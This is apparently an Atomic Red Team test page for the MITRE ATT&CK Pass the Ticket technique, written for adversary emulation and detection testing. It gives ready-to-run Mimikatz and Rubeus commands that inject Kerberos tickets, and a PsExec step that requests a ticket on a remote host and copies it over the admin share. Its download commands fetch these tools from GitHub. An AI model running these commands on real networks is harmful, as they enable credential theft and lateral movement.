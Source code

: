 # T1550.003 - Pass the Ticket
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1550/003)
<blockquote>Adversaries may “pass the ticket” using stolen Kerberos tickets to move laterally within an environment, bypassing normal system access controls. Pass the ticket (PtT) is a method of authenticating to a system using Kerberos tickets without having access to an account's password. Kerberos authentication can be used as the first step to lateral movement to a remote system.

When preforming PtT, valid Kerberos tickets for [Valid Accounts](https://attack.mitre.org/techniques/T1078) are captured by [OS Credential Dumping](https://attack.mitre.org/techniques/T1003). A user's service tickets or ticket granting ticket (TGT) may be obtained, depending on the level of access. A service ticket allows for access to a particular resource, whereas a TGT can be used to request service tickets from the Ticket Granting Service (TGS) to access any resource the user has privileges to access.(Citation: ADSecurity AD Kerberos Attacks)(Citation: GentilKiwi Pass the Ticket)

A [Silver Ticket](https://attack.mitre.org/techniques/T1558/002) can be obtained for services that use Kerberos as an authentication mechanism and are used to generate tickets to access that particular resource and the system that hosts the resource (e.g., SharePoint).(Citation: ADSecurity AD Kerberos Attacks)

A [Golden Ticket](https://attack.mitre.org/techniques/T1558/001) can be obtained for the domain using the Key Distribution Service account KRBTGT account NTLM hash, which enables generation of TGTs for any account in Active Directory.(Citation: Campbell 2014)

Adversaries may also create a valid Kerberos ticket using other user information, such as stolen password hashes or AES keys. For example, "overpassing the hash" involves using a NTLM password hash to authenticate as a user (i.e. [Pass the Hash](https://attack.mitre.org/techniques/T1550/002)) while also using the password hash to create a valid Kerberos ticket.(Citation: Stealthbits Overpass-the-Hash)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Kerberos Ticket Attack](#atomic-test-1---mimikatz-kerberos-ticket-attack)

- [Atomic Test #2 - Rubeus Kerberos Pass The Ticket](#atomic-test-2---rubeus-kerberos-pass-the-ticket)


<br/>

## Atomic Test #1 - Mimikatz Kerberos Ticket Attack
Similar to PTH, but attacking Kerberos

**Supported Platforms:** Windows


**auto_generated_guid:** dbf38128-7ba7-4776-bedf-cc2eed432098





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ticket | Ticket file name usually format of 'id-username&#92;@domain.kirbi' (e.g. can be dumped by "sekurlsa::tickets /export" module) | String | |
| mimikatz_exe | Path of the Mimikatz binary | Path | PathToAtomicsFolder&#92;T1550.003&#92;bin&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{mimikatz_exe} "kerberos::ptt #{ticket}"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz must exist on disk at specified location (#{mimikatz_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path #{mimikatz_exe}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
$mimikatz_relative_uri = Invoke-WebRequest "https://github.com/gentilkiwi/mimikatz/releases/latest" -UseBasicParsing | Select-Object -ExpandProperty Links | Where-Object -Property href -Like "*/mimikatz_trunk.zip" | Select-Object -ExpandProperty href
Invoke-WebRequest "https://github.com$mimikatz_relative_uri" -UseBasicParsing -OutFile "$env:TEMP\Mimi.zip"
Expand-Archive $env:TEMP\Mimi.zip $env:TEMP\Mimi -Force
New-Item -ItemType Directory (Split-Path #{mimikatz_exe}) -Force | Out-Null
Copy-Item $env:TEMP\Mimi\x64\mimikatz.exe #{mimikatz_exe} -Force
```




<br/>
<br/>

## Atomic Test #2 - Rubeus Kerberos Pass The Ticket
Requesting a TGT on a remote system and retrieving it locally before requesting a service ticket with it. This is a Pass-The-Ticket attack because the TGT is obtained on the remote system, then used from a different machine (local).
PsExec is used to execute commands on the remote system, and the "C$" admin share is used to retrieve the TGT, so the current user must have admin rights remotely and other PsExec prerequisites must be met.

**Supported Platforms:** Windows


**auto_generated_guid:** a2fc4ec5-12c6-4fb4-b661-961f23f359cb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target | Remote system to request the TGT from | string | localhost|
| user_name | username associated with the ticket (privileged account not required) | String | Administrator|
| password | password for user_name | String | Password|
| domain | domain | String | $Env:USERDOMAIN|
| rubeus_path | Path of the Rubeus binary | Path | $Env:TEMP&#92;rubeus.exe|
| rubeus_url | URL of Rubeus executable | Url | https://github.com/morgansec/Rubeus/raw/de21c6607e9a07182a2d2eea20bb67a22d3fbf95/Rubeus/bin/Debug/Rubeus45.exe|
| psexec_path | Path of the PsExec binary | String | C:&#92;PSTools&#92;PsExec.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
#{psexec_path} -accepteula \\#{target} -w c:\ -c #{rubeus_path} asktgt /user:#{user_name} /password:#{password} /domain:#{domain} /outfile:ticket.kirbi
Set-Location $env:TEMP
Move-Item -Force "\\#{target}\c$\ticket.kirbi" ticket.kirbi
Write-Host "Successfully retrieved TGT from '#{target}', now requesting a TGS from local"
& "#{rubeus_path}" asktgs /service:cifs/#{target} /ticket:ticket.kirbi /ptt
Remove-Item $env:TEMP\ticket.kirbi
& "#{rubeus_path}" purge
```




#### Dependencies:  Run with `powershell`!
##### Description: Rubeus must exist on disk at specified location (#{rubeus_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{rubeus_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-Webrequest -Uri #{rubeus_url} -OutFile #{rubeus_path}
```
##### Description: PsExec must exist on disk at specified location (#{psexec_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{psexec_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "$env:TEMP\PsTools.zip"
Expand-Archive $env:TEMP\PsTools.zip $env:TEMP\PsTools -Force
New-Item -ItemType Directory (Split-Path "#{psexec_path}") -Force | Out-Null
Copy-Item $env:TEMP\PsTools\PsExec.exe "#{psexec_path}" -Force
```




<br/>
